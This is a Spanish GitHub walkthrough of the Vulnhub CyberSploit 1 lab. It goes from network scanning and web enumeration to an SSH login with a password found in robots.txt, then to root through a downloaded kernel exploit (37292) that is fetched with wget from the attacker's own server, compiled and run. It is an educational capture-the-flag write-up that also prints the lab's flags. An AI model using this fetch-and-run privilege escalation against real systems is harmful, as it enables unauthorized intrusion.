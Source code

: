 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=480&height=80&lines=CYBERSPLOIT_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/cybersploit-1,506/


<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/174417901-a2431e6b-3849-46e3-a0e4-ed3f8ed73e85.png"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i wlan0 -r 192.168.1/24
```
![1](https://user-images.githubusercontent.com/75953873/174458235-8b46f051-22c5-4c9e-a193-a21d2b15f82a.png)

IP host: `192.168.1.5`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/174458274-1cbb9500-5deb-43d7-a58c-1fa3ba579cc9.png)

Puertos abiertos: [22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/174458453-68bb619f-8c2c-4657-a337-ae7bdbdb0fd3.png)

Servidor corriendo: **HTTP Apache**

![4](https://user-images.githubusercontent.com/75953873/174458587-9dc99104-e733-4167-a77e-5637aa484cde.png)

- *Paso 4:* Enumerar archivos web con Dirb.
```
dirb http://192.168.1.5 -w /usr/share/dirb/wordlists/common.txt
```
![5](https://user-images.githubusercontent.com/75953873/174458681-2f5b9ac3-cf49-4484-8fa4-ecba37570950.png)

Archivo: `robots.txt`

Mostrar contenido del archivo con Curl:
```
curl http://192.168.1.5/robots.txt
```
![6](https://user-images.githubusercontent.com/75953873/174458725-43cc2b76-f495-443a-ac4d-83aacd133f9a.png)

Mensaje ofuscado a base64: `R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9`

Decodificar mensaje con Bash:
```
echo 'R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9' | base64 --decode
```
![7](https://user-images.githubusercontent.com/75953873/174458797-e0ceea57-dcf1-4b3b-954c-b2dfaf1fd074.png)

- *Paso 5:* Conectarse al servidor SSH. 

**_CREDENCIALES SSH_**

Usuario: `itsskv`

Contraseña (**FLAG_1**): `cybersploit{youtube.com/c/cybersploit}`

```
ssh itsskv@192.168.1.5
```
![8](https://user-images.githubusercontent.com/75953873/174458910-2ecb3d1a-a76b-46b6-a51f-e14cc1e849b6.png)

Capturar la segunda flag:
```
cat /home/itsskv/flag2.txt
```
![9](https://user-images.githubusercontent.com/75953873/174458939-30736126-e294-4d22-85ae-f074f4b3f566.png)

Flag ofuscada a código binario: `01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101`

Decodificar binario.

ONLINE: https://www.online-toolz.com/langs/es/tool-es-text-binary-convertor.html

![10](https://user-images.githubusercontent.com/75953873/174459040-d0e1d032-167b-464b-a9c4-d3aa8d57753d.png)

**FLAG_2**: cybersploit{https:t.me/cybersploit1}

- *Paso 6:* Escalar privilegios: buscar exploit con Searchsploit.

![12](https://user-images.githubusercontent.com/75953873/174459381-dc60d2c4-1bd2-426e-a9b5-2bb4dc27ab37.png)

Versión del kernel: `3.13.0-32`

```
searchsploit 3.13.0
```
![11](https://user-images.githubusercontent.com/75953873/174459391-4ab3d7ee-c30f-4ee0-9e95-76c82dac1e10.png)

Descargar exploit:
```
searchsploit -m 37292
```
![13](https://user-images.githubusercontent.com/75953873/174459424-5bc7b440-01e0-4331-8597-e7dcc4da51c1.png)

Abrir un servidor local en el puerto 80 con Python3:
```
python3 -m http.server 80
```
![14](https://user-images.githubusercontent.com/75953873/174459453-de8a70d0-36c7-4238-b8eb-bac90a4a891e.png)

Descargar exploit en el directorio `/tmp`; compilar y dar permisos de escritrura, lectura y ejecucción:
```
cd /tmp
wget http://192.168.1.9/37292.c
gcc 37292.c -o kernel
chmod 777 kernel
```
![15](https://user-images.githubusercontent.com/75953873/174459564-3b68a9b2-1d9f-4bcf-8689-a2f0afe3d4f5.png)

Por último, explotar el kernel `./kernel` y capturar la key (flag) del fichero `finalflag.txt` dentro del directorio `/root`:
```
./kernel
cd /root
cat finalflag.txt
```
![16](https://user-images.githubusercontent.com/75953873/174459618-e2feb3f3-dca2-4041-ba44-0272c063c7dd.png)

**FLAG_3**: cybersploit{Z3X21CW42C4 many many congratulations !}

